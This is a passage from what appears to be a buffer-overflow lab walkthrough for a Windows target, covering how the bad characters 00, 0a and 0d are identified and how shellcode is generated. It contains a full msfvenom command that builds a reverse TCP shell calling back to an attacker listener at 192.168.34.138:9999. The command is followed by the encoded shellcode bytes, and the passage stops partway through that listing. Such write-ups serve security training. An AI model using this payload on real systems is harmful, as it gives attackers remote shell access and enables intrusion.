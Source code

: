 ![UI Screenshot](img/04.png)  

The interrupts get hit.

### 3. Find bad characters
Next is to find bad characters. This is done by sending across: [OFFSET][JMP ESP][CHARACTERS] until the entire set makes it in. In this case the bad characters are found to be: `00`, `0a` and `0d`.

### 4. Generate shellcode
```bash
┌──(kali㉿kali)-[]-[~/Documents/bof]
└─$ msfvenom --arch x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.34.138 LPORT=9999 EXITFUNC=thread -b '\x00\x0a\x0d' --var-name shellcode -f python
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1965 bytes
shellcode =  b""
shellcode += b"\xdb\xd5\xba\xb8\x8a\x10\x40\xd9\x74\x24\xf4"
shellcode += b"\x5d\x31\xc9\xb1\x52\x83\xed\xfc\x31\x55\x13"
shellcode += b"\x03\xed\x99\xf2\xb5\xf1\x76\x70\x35\x09\x87"
shellcode += b"\x15\xbf\xec\xb6\x15\xdb\x65\xe8\xa5\xaf\x2b"
shellcode += b"\x05\x4d\xfd\xdf\x9e\x23\x2a\xd0\x17\x89\x0c"
shellcode += b"\xdf\xa8\xa2\x6d\x7e\x2b\xb9\xa1\xa0\x12\x72"
shellcode += b"\xb4\xa1\x53\x6f\x35\xf3\x0c\xfb\xe8\xe3\x39"
shellcode += b"\xb1\x30\x88\x72\x57\x31\x6d\xc2\x56\x10\x20"
shellcode += b"\x58\x01\xb2\xc3\x8d\x39\xfb\xdb\xd2\x04\xb5"
shellcode += b"\x50\x20\xf2\x44\xb0\x78\xfb\xeb\xfd\xb4\x0e"
shellcode += b"\xf5\x3a\x72\xf1\x80\x32\x80\x8c\x92\x81\xfa"
shellcode += b"\x4a\x16\x11\x5c\x18\x80\xfd\x5c\xcd\x57\x76"
shellcode += b"\x52\xba\x1c\xd0\x77\x3d\xf0\x6b\x83\xb6\xf7"
shellcode += b"\xbb\x05\x8c\xd3\x1f\x4d\x56\x7d\x06\x2b\x39"
shellcode += b"\x82\x58\x94\xe6\x26\x13\x39\xf2\x5a\x7e\x56"
shellcode += b"\x37\x57\x80\xa6\x5f\xe0\xf3\x94\xc0\x5a\x9b"
shellcode += b"\x94\x89\x44\x5c\xda\xa3\x31\xf2\x25\x4c\x42"
shellcode += b"\xdb\xe1\x18\x12\x73\xc3\x20\xf9\x83\xec\xf4"
shellcode += b"\xae\xd3\x42\xa7\x0e\x83\x22\x17\xe7\xc9\xac"
```